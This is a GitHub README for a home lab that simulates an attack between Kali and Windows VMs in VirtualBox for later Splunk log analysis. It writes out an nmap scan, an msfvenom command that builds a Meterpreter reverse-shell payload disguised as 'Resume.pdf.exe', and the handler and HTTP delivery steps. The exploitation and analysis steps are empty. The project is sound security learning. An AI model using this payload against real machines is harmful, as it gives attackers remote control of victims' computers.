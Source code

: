 # Simulating Cyber Attacks and Log Analysis with VirtualBox and Splunk

## Objective
The project aimed to create a simulated network attack environment using VirtualBox to connect a Windows 10 VM (victim) and a Kali Linux VM (attacker). The primary goal was to execute an attack and analyze the resulting logs with Splunk to understand attack patterns and enhance network security skills.

### Skills Learned

- **Virtual Machine Management:** Setting up and managing virtual machines using Oracle VM VirtualBox.
- **Penetration Testing:** Using Metasploit for vulnerability exploitation and payload delivery.
- **Malware Creation:** Ability to create and deploy custom malware using 'msfvenom' with a reverse TCP payload.
- **SIEM Log Analysis:** Using Splunk for log ingestion, querying, and analysis to detect and investigate suspicious activities.
- **Command-Line Proficiency:** Executing various command-line tools and utilities on both Windows and Linux platforms.
- **Cybersecurity Concepts:** Understanding of attack vectors, defense mechanisms, and network security best practices.

### Tools Used

- Virtualization Software: Oracle VM VirtualBox
- Operating Systems: Windows 10 (Victim) and Kali Linux (Attacker)
- Security Tools: Metasploit Framework, Nmap, Splunk
- Networking: Internal Network Configuration in VirtualBox

## Steps

1. **Network Configuration**:
     * Set both VMs to use an internal network for isolated communication.
     * Verify the connection between the virtual machines using the ping command.
  
2. **Scanning for Open Ports**:
   * On Kali, ran 'Nmap -A 192.168.20.10 -Pn'. This command performs an aggressive scan (-A) on the target IP without pinging the host first (-Pn). It detects open ports, services, OS details, and potential vulnerabilities.
   * After running the command, identified that port 3389 (RDP) is open.

   ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/02ae843a11ce0da73895b2bf4bae0e7cce666d24/Project%20Images/Screenshot%202024-06-28%20131152.png)

3. **Creating Malware**:
     * Used msfvenom to create a malware payload with command 'msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f exe -o Resume.pdf.exe'.
     * This command generates a Windows executable (-f exe) with a reverse TCP payload that causes the Windows machine to connect back to the attacker's IP on port 4444, and outputs it as 'Resume.pdf.exe'.

     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/dc126819e54bc31e9c6ad753d6717cc188d76ed8/Project%20Images/Screenshot%202024-06-28%20135945.png)


4. **Setting Up Metasploit Handler**:
     * Opened 'msfconsole' and configured a handler to listen for incoming connections. Achieved this by using command 'use/exploit/multi/handler' and set the payoad and LHOST/LPORT to match the malware configuration.
     * By setting up a metasploit handler, you set up a listener that waits for the victim's machine to connect back to the attacker's machine. This connection is established when the victim executes the malware, allowing the attacker to gain control over the victim's machine through a Meterpreter session.
   
    ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/a14a72e9e432c9ff5b108cdcbaabd5fbb2aca154/Project%20Images/Screenshot%202024-06-28%20211123.png)
    ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/a14a72e9e432c9ff5b108cdcbaabd5fbb2aca154/Project%20Images/Screenshot%202024-06-28%20212126.png)

5. **Delivering Malware**:
     * Set up a simple HTTP server on Kali for file delivery using 'python3 -m http.server 9999'.
     * On Windows VM, disabled antivirus, navigated to the Kali IP on port 9999, downloaded, and executed the malware.

     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/3ab03dea89bf80ece7dd3bf85ad93ff1da2bf86a/Project%20Images/Screenshot%202024-06-28%20214054.png)
     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/3ab03dea89bf80ece7dd3bf85ad93ff1da2bf86a/Project%20Images/WindowsVM%20(current)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox%206_23_2024%205_47_05%20PM.png)

6. **Verifying The Established Connection**:
     * To verify that the malware executed correctly and that there's an established connection between the client and attacker we can use the command 'netstat -anob'. This command will show you a list of all active network connections. Furthermore, we can see an established connection from the client to the attacker through the "Resume.pdf.exe" file.
     * We can also verify through Task Manager. We see that "Resume.pdf.exe" is running through PID:8028. 

     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/fef68f7ed68eb29b9525a952c1d0836e00828928/Project%20Images/WindowsVM%20(current)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox%206_23_2024%209_56_44%20PM.png)
     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/fef68f7ed68eb29b9525a952c1d0836e00828928/Project%20Images/WindowsVM%20(current)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox%206_23_2024%209_58_09%20PM.png)

7. **Exploiting the Victim Machine**:
     * 
     *

     ![image alt]()
     ![image alt]()     
